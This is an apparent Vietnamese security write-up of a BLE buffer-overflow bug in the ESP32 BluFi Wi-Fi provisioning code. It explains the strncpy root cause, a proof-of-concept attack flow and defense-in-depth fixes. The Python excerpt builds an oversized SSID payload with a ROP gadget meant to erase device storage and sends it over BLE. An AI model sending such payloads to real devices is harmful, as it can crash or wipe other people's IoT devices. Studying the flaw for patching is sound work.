

# Phân Tích Lỗ Hổng Tràn Bộ Đệm (Buffer Overflow) Trên Giao Thức ESP32 BluFi

Trong thế giới Internet of Things (IoT), ESP32 luôn là một trong những vi điều khiển được ưa chuộng nhất nhờ khả năng kết nối Wi-Fi và Bluetooth mạnh mẽ. Tuy nhiên, sự tiện lợi đôi khi lại đi kèm với những rủi ro bảo mật tiềm ẩn. Hôm nay, chúng ta sẽ cùng mổ xẻ một lỗ hổng bảo mật nghiêm trọng trên giao thức BluFi của ESP32 – lỗ hổng **NCC-BluFi-Ref-WXR**.

## 1. Bài Toán và Bối Cảnh Lỗi (The Problem)

Giao thức **BluFi** (Bluetooth Wi-Fi Provisioning) là một tính năng của ESP32 cho phép người dùng cấu hình mạng Wi-Fi cho thiết bị thông qua kết nối Bluetooth Low Energy (BLE). Tuy nhiên, một lỗ hổng **Buffer Overflow (tràn bộ đệm)** đã được phát hiện trong mã nguồn tham chiếu ESP-IDF (từ phiên bản v5.0.7 trở về trước).

Lỗ hổng này cực kỳ nguy hiểm bởi nó cho phép một kẻ tấn công ở trong phạm vi sóng BLE (khoảng 10-30m) có thể thực hiện tấn công **Từ chối Dịch vụ (DoS)** hoặc thậm chí là **Thực thi Mã từ xa (RCE)** mà hoàn toàn không cần bất kỳ bước xác thực nào (Unauthenticated Pairing).

## 2. Nguyên Nhân Gốc Rễ (The Root Cause)

Đi sâu vào mã nguồn ngôn ngữ C của firmware, vấn đề nằm ở một lỗi logic kinh điển nhưng chết người khi xử lý các sự kiện `ESP_BLUFI_EVENT_RECV_STA_SSID` và `ESP_BLUFI_EVENT_RECV_STA_PASSWD`.

Cụ thể, khi sao chép chuỗi cấu hình mạng (SSID và Mật khẩu) do người dùng gửi đến, hàm `strncpy` đã được gọi. Lẽ ra, tham số độ dài của hàm này phải là kích thước giới hạn và an toàn của bộ đệm đích (tức là `sizeof(sta_config.sta.ssid)`), nhưng lập trình viên lại truyền trực tiếp chiều dài của dữ liệu đầu vào (`param->sta_ssid.ssid_len`). Điều này có nghĩa là, nếu kẻ tấn công cố tình gửi một chuỗi SSID siêu dài, hàm sẽ tiếp tục ghi đè dữ liệu ra khỏi phạm vi của bộ nhớ được cấp phát.

> [!WARNING]
> Hành vi này gây phá hủy cấu trúc Heap Metadata, ghi đè lên các vùng nhớ quan trọng và ngay lập tức dẫn đến CPU Panic (câu lệnh `assert failed` sẽ dừng hệ thống), gây ra DoS.

## 3. Sơ Đồ Kiến Trúc Tấn Công

Dưới đây là mô phỏng quá trình tấn công từ một thiết bị xâm nhập qua tín hiệu BLE, gửi payload độc hại vào ESP32 để kích hoạt lỗi tràn bộ đệm:



## 4. Chi Tiết Khai Thác Bằng Script Python

Để chứng minh mức độ nghiêm trọng (Proof-of-Concept), kẻ tấn công sử dụng một kịch bản tấn công viết bằng Python kết hợp thư viện `bleak` để quét và kết nối với ESP32 mục tiêu mà không cần xác thực. 

Quá trình tấn công được diễn ra hết sức tuần tự:
1. **Quét thiết bị ESP32:** Tìm các thiết bị phát BLE có tên chứa từ khóa (như "BLUFI", "ESP32").
2. **Kích hoạt chế độ thiết lập:** Kẻ tấn công gửi gói tin có byte loại là `0x08` để ra lệnh chuyển ESP32 sang chế độ Station (STA).
3. **Tiêm Payload Tràn Bộ Đệm:** Thông qua loại gói `0x09` (Thiết lập SSID), kẻ tấn công gửi một Payload khổng lồ chứa dữ liệu ROP (Return-Oriented Programming). Payload này được tính toán cẩn thận để ghi đè vượt qua giới hạn mảng, lấp đầy stack, đụng tới vùng Canary và trực tiếp can thiệp vào Return Address (địa chỉ trả về của hàm).

Dưới đây là trích đoạn Python trong kịch bản tấn công thực tế, định nghĩa chi tiết cách tạo và gửi Payload:

```python
# --- Cấu hình ROP Payload để khai thác lỗi tràn bộ đệm trên Stack ---
OFFSET_TO_CANARY = 144  # Vị trí của giá trị canary bảo vệ stack
OFFSET_TO_RA = 148      # Vị trí Return Address (Địa chỉ trả về của hàm)
CANARY = struct.pack('<I', 0xDEADBEEF)  # Chèn giá trị canary giả định

# Lựa chọn Gadget (Đoạn mã có sẵn trong firmware để thực thi điều khiển)
NVS_ERASE_GADGET = 0x400d970d  # Gadget gọi hàm xóa bộ nhớ
ROP_CHAIN = struct.pack('<I', NVS_ERASE_GADGET) + b'\x90\x90\x90\x90'

# --- Xây dựng khối bộ nhớ độc hại ---
# Quy trình nhồi:
# 1. Rác 'A' tới điểm sát Canary
# 2. Ghi đè Canary
# 3. Ghi đè rác rỗng \x00 tới điểm Return Address
# 4. Ghi đè Return Address bằng Gadget ROP của ta
# 5. Rác 'B' lấp đầy phần còn lại
SSID_OVERFLOW = (
    b'A' * OFFSET_TO_CANARY + 
    CANARY + 
    b'\x00' * (OFFSET_TO_RA - OFFSET_TO_CANARY - 4) + 
    ROP_CHAIN + 
    b'B' * (200 - OFFSET_TO_RA)
)

# --- Thực thi tấn công ---
# Gửi payload thông qua gói dữ liệu SSID (loại 0x09) qua giao thức BLE
ssid_type = 0x09
await send_blufi_packet(client, write_uuid, ssid_type, seq, SSID_OVERFLOW)
```

Ngay sau khi lệnh này được gửi đi, mã nguồn chứa `strncpy` lỗi trên ESP32 sẽ "ngây thơ" chép toàn bộ khối `SSID_OVERFLOW` vào stack. Kết quả, màn hình Serial Monitor của ESP32 sẽ lập tức bật lên các cảnh báo chết chóc như `wifi:Config authmode threshold is invalid`, theo sau là `assert failed: heap_caps_free` và đổ toàn bộ `Backtrace`, trước khi vi điều khiển hoàn toàn sụp đổ và tự reset. Nếu kẻ tấn công tinh chỉnh được Canary khớp hoàn toàn, mã ROP sẽ được thực thi mở đường cho RCE.

## 5. Cơ Chế Bảo Mật Theo Chiều Sâu và Quản Lý Bộ Nhớ

Lỗi tràn bộ đệm BluFi này chính là hồi chuông cảnh báo rõ ràng nhất cho thấy sự thiếu sót trong nguyên tắc **Bảo Mật Theo Chiều Sâu (Defense-in-Depth)**. Để hệ thống nhúng an toàn, bảo vệ không chỉ diễn ra ở một chỗ, mà phải trải rộng nhiều lớp:

1. **Quản Lý Bộ Nhớ Khắt Khe (Memory Management):** Đây là vòng bảo vệ đầu tiên ở mức Application. Bất kỳ một ngôn ngữ bậc thấp nào như C/C++, lập trình viên tuyệt đối không được tin tưởng dữ liệu đầu vào. Thao tác sao chép dữ liệu (`memcpy`, `strncpy`) luôn luôn phải sử dụng kích thước tối đa (max size) dựa trên *không gian đích đã được cấp phát* (như `sizeof(buffer)`), chứ không bao giờ lấy từ *độ dài dữ liệu người dùng báo cáo*. Ngoài ra, phải luôn chú ý chèn ký tự `\0` thủ công sau thao tác copy để chuỗi không rò rỉ bộ nhớ.
2. **Kiểm Tra Tính Hợp Lệ Dữ Tại Đầu Vào (Data Validation):** Ngay tại tầng xử lý gói tin BLE, nếu độ dài SSID yêu cầu vượt quá chuẩn thông thường của Wifi (32 bytes), gói tin phải bị rớt (drop) ngay lập tức và ghi log hành vi đáng ngờ.
3. **Bảo Vệ Ở Tầng Trình Biên Dịch & Hệ Điều Hành (OS Mitigations):** Đây là vòng bảo vệ cuối cùng. Kích hoạt tính năng bảo vệ Stack (như **Stack Canaries/Stack Smashing Protection**) trong RTOS (như FreeRTOS). Khi hacker tạo chuỗi đè lên stack, chúng sẽ ghi đè lên "Canary". Hệ thống khi thoát hàm sẽ kiểm tra thấy Canary bị biến đổi và lập tức chủ động ngắt tiến trình (CPU Panic). Cách này biến một nguy cơ cực kỳ độc hại là Chiếm Quyền (RCE) thành một lỗi treo máy (DoS), giảm thiểu tối đa thiệt hại.

## 6. Tổng Kết

Bảo mật IoT không phải là phép màu, nó bắt nguồn từ sự cẩn trọng trên từng dòng code C/C++. Việc nắm vững và vá thành công lỗ hổng BluFi chính là bài học vô giá về việc thực thi nghiêm ngặt thiết kế hệ thống bảo mật nhiều lớp và kỹ năng thao tác an toàn với các khối bộ nhớ thô trong các hệ thống nhúng.

**Repository:** [ESP32 BluFi Stack Overflow](https://github.com/PoeenCy/esp32-blufi-stack-overflow)
